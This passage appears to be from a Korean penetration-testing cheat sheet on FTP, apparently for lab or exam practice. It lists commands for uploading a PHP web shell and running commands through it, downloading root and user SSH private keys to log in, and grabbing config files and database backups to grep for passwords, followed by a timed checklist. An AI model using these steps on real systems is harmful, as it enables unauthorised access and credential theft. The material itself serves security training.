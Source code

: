 ### 🌐 웹 서비스와 연계

```bash
# FTP로 웹쉘 업로드 후 접근
put shell.php /var/www/html/shell.php
curl http://{IP}/shell.php?cmd=whoami

# 설정 파일 다운로드 후 분석
get /var/www/html/config.php
cat config.php | grep -i password
```

### 🔐 SSH와 연계

```bash
# SSH 키 파일 다운로드
get /home/user/.ssh/id_rsa
get /root/.ssh/id_rsa
chmod 600 id_rsa
ssh -i id_rsa user@{IP}

# 알려진 호스트 파일 확인
get /home/user/.ssh/known_hosts
```

### 🗄️ 데이터베이스와 연계

```bash
# 데이터베이스 설정 파일 확인
get /var/www/html/wp-config.php
get /var/www/html/config.inc.php
get /etc/mysql/my.cnf

# 백업 파일에서 크레덴셜 추출
get database_backup.sql
grep -i password database_backup.sql
```

---

## ⏱️ 시간 관리 가이드

### 🎯 5분 안에 완료할 것들

- [ ] 기본 FTP 정보 수집
- [ ] 익명 로그인 시도
- [ ] NSE 스크립트 실행
- [ ] TFTP 서비스 확인

### 🔍 15분 안에 완료할 것들

- [ ] 모든 접근 가능한 파일 확인
- [ ] 중요 파일들 다운로드
- [ ] 업로드 권한 테스트
- [ ] 다른 서비스와 연계 확인
